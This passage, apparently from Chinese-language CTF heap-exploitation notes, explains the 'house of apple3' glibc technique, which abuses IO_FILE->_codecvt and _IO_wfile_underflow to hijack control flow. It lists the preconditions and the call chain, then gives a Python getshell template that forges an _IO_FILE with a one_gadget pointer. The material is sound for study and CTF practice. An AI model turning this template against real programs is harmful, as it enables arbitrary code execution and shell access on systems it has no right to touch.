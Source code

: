```python

    return payload
```

**注意：** 上述模板中fake\_IO\_file\_addr地址为伪造的\_IO\_FILE起始地址。

### house of apple3

基于**IO\_FILE-&gt;\_codecvt**的利用方法。  
条件：

- 已知**heap**地址和**libc**基址
- 能控制程序执行**IO**操作，包括但不限于：从**main**函数返回、调用**exit**函数、通过**\_\_malloc\_assert**触发
- 能控制**IO\_FILE**的**vtable**和**\_codecvt**，一般使用**largebin attack**去控制  
    利用`_IO_wfile_underflow`控制程序执行流  
    **调用链**：**\_IO\_wfile\_underflow** -&gt; **libio\_codecvt\_in** -&gt; **fp-&gt;codecvt -&gt; cd\_in.step -&gt; \_\_fct(函数指针)**

```php
_IO_wfile_underflow
    __libio_codecvt_in
        DL_CALL_FCT
            gs = fp->_codecvt->__cd_in.step
            *(gs->__fct)(gs)

```

**getshell模板**

```python
def house_of_apple3(fake_IO_file_addr):
    fake_ucontext = ucontext_t()
    fake_ucontext.rip = ret
    fake_ucontext.rsp = fake_IO_file_addr + 0x300
    fake_ucontext.rdi = fake_IO_file_addr >> 12 << 12
    fake_ucontext.rsi = 0x2000
    fake_ucontext.rdx = 7

    fake_IO_file = flat(
        {
            0: 0xffffffffffffffff,  # _IO_read_end
            0x18: 1,                # _IO_write_ptr
            0x30: fake_IO_file_addr + 0x100,    # _IO_buf_end = _codecvt.step
            0x88: fake_IO_file_addr + 0x40,     # _codecvt
            0x90: _IO_wide_data,
            0xc8: _IO_wfile_jumps + 0x8,        # vtable
            0xf0: {
                0: 0,   # key
                0x28: one_gadget,     # fun_ptr
            }
        }, filler='\x00'
    )

    payload = fake_IO_file
    return payload
```
